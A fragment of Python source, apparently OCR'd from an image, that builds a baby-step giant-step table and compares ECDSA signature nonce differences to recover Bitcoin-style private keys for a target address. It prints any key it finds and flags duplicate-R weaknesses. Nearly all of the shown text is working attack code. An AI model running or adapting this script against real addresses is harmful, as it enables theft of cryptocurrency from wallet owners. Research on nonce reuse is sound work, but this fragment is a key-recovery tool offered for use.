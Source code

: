 # Time and RAM intensive process to make bigger Table
print(f'Starting to prepare BSGS Table with {bP} elements')
ice.bsgs_2nd_check_prepare(bP)

solvable_diff = []
for Q in RD:
    found, diff = ice.bsgs_2nd_check(Q[2], -1)
    if found == True:
        solvable_diff.append((Q[0], Q[1], diff.hex()))
    
#==============================================================================
print('='*70); print('-'*120)
for i in solvable_diff:
    print(f'[i={i[0]}] [j={i[1]}] [R Diff = {i[2]}]')
#    k = getk1(rL[i[0]], sL[i[0]], zL[i[0]], rL[i[1]], sL[i[1]], zL[i[1]], int( i[2], 16) )
#    d = getpvk(rL[i[0]], sL[i[0]], zL[i[0]], rL[i[1]], sL[i[1]], zL[i[1]], int( i[2], 16) )
    di = all_pvk_candidate(rL[i[0]], sL[i[0]], zL[i[0]], rL[i[1]], sL[i[1]], zL[i[1]], int( i[2], 16) )
    for d in di:
        if ice.scalar_multiplication(d) == pub_point_Q:
            print(f'Privatekey FOUND: {hex(d)}       Address: {address}')
#        else: print(f'Privatekey MISSED: {hex(d)}')
    print('='*70); print('-'*120)
FdupR = [i.hex()[2:66] for i in RQ]
if len(FdupR) != len(set(FdupR)): print(f'Duplicate R Vulnerability exists in this Address: {address}')
print('Program Finished ...')